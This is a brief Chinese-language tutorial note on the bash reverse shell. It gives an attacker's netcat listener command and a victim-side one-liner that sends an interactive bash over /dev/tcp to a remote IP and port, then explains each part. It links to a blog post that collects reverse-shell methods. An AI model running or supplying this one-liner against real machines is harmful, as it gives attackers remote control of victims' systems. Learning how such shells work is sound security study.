 
# bash 反弹

```
攻击者：nc -lvp 9999

受害者：bash -i >& /dev/tcp/192.168.203.143/9999 0>&1

nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口
-l 监听模式，用于入站连接
-v 详细输出--用两个-v可得到更详细的内容
-p port 本地端口号

bash -i代表在本地打开一个bash
>&后面跟上/dev/tcp/ip/port这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程vps
/dev/tcp/是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接
远程vps开启对应的端口去监听，就会接收到这个bash的标准输出和标准错误输出
```

[反弹shell汇总，看我一篇就够了_getshell和反弹shell_lainwith的博客-CSDN博客](https://blog.csdn.net/weixin_44288604/article/details/111740527)